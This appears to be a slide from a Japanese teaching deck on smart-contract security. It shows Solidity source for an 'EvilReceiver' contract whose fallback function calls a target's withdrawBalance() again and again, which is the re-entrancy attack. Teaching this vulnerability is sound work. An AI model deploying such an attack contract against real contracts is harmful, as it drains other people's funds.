

# 11.1 Re-Entrancy問題

・攻撃をする側のコントラクト
pragma solidity ^0.4.11;
contract  EvilReceiver {

  // 攻撃対象コントラクトのアドレス
  address public target;
  // メッセージ表示用のイベント
  event MessageLog(string);
  // 残高表示用のイベント
  event BalanceLog(uint);

  /// コンストラクタ
  function EvilReceiver(address _target) public{
    target = _target;
  }
  /// Fallback関数
  function() payable public{
    BalanceLog(this.balance);
    // VictimBalanceのwithdrawBalanceを呼出し
    if(!msg.sender.call.value(0)
         (bytes4(keccak256(“withdrawBalance()”))))
    {
      MessageLog("FAIL");
    } else {
      MessageLog("SUCCESS");
    }
  }
 /// EOAからの送金時に利用する関数
  function addBalance() public payable {
  }

  /// 攻撃対象への送金時に利用する関数
  function sendEthToTarget() public {
    if(!target.call.value(1 ether)(bytes4(
               keccak256("addToBalance()"))))
    {
      revert();
    }
  }
  ///　攻撃対象からの引出し時に利用する関数
  function withdraw() public {
    if(!target.call.value(0)(bytes4(
        keccak256("withdrawBalance()"))))
    {
      revert();
    }
  }
}